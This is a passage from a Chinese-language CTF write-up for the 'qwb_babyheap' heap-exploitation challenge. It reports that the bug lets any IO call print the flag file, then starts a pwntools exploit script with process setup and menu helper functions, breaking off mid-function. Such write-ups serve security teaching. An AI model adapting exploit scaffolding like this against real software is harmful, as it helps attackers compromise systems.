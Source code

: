 运行后如下所示

![qwb](/image/qwbs8/0.png)  

![qwb](/image/qwbs8/1.png)  

观察一看，确实如此. 后续直接随便调用 IO 即可触发. 如下所示读取了 `./flag` 并且输出了 flag{...}

![qwb](/image/qwbs8/2.png)  


### [](#header-3)EXP


```py
#by leeya_bug

from pwn import *
import time
import os

SLEEP_TIME = 0.2

context.os = 'linux'
context.log_level = "debug"
x64_32 = True
context.arch = 'amd64' if x64_32 else 'i386'

p = process('./debug/qwb_babyheap')
libc = ELF('./glibc-all-in-one/libs/2.35-0ubuntu3.8_amd64/libc.so.6')

def debug():
	subprocess.Popen(["qterminal", "-e", f'bash -c "pwndbg -p {p.pid}" '])
	p.interactive()
	
#------------- 基本配置 -------------

def add_com(size: int) -> None:
	p.sendlineafter(b'Enter your choice:',b'1')
	p.sendlineafter(b'size', str(size).encode())
	
def del_com(index: int) -> None:
	p.sendlineafter(b'Enter your choice:',b'2')
	p.sendlineafter(b'delete:', str(index).encode())
	
def edit_com(index: int, content: bytes) -> None:
```